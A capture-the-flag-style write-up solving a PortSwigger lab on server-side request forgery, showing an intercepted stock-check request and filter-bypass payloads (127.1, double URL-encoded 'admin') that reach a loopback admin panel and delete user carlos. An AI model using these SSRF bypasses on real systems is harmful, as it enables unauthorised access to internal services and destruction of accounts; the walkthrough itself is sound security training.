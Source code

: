 # SSRF with blacklist-based input filter

Link: https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

The developer has deployed two weak anti-SSRF defenses that you will need to bypass.

### solution

- start the lab and remember the objective is to open `/admin` and delete the user carlos
- if u try going to `/admin` endpoint, you will n't get the result as u can't access it directly u will get this message `Admin interface only available if logged in as an administrator, or if requested from loopback`
- so let's go to products and click check stock as challange describtion said
- intercept this request
```
POST /product/stock HTTP/1.1
Host: 0a8800100385496e84c90fc700fa00af.web-security-academy.net
Cookie: session=ffMtPXx2g8AmQYwWYmNulgDa0wkhrt4i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8800100385496e84c90fc700fa00af.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a8800100385496e84c90fc700fa00af.web-security-academy.net
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
```
- notice that stockApi parameter has a url as a value, so let's try to change it to `http://localhost/admin` and the send the request
- ummmmmmmmmmm it's blocked so let's try this `http://127.1`
- Nice we got response with status code 200 OK
- then let's try `http://127.1/admin`
- It's blocked so there may be restriction on `admin`
- let's do some obsufication like double url encoding of any character like a is example
- the payload became `http://127.1/%25%36%31dmin` sent the request
- Nice we got response with status code 200 OK
- when we look at the response body we see this
```html
<div>
    <span>wiener - </span>
    <a href="/admin/delete?username=wiener">Delete</a>
</div>
<div>
    <span>carlos - </span>
    <a href="/admin/delete?username=carlos">Delete</a>
</div>
```
- and that's what we exactly need
- send the previous request again but with stockApi parameter value = `http://127.1/%25%36%31dmin/delete?username=carlos`
- Carlos is deleted
- Congratzzzzzzzzzzzzzzzzzzzzzzzzzzzz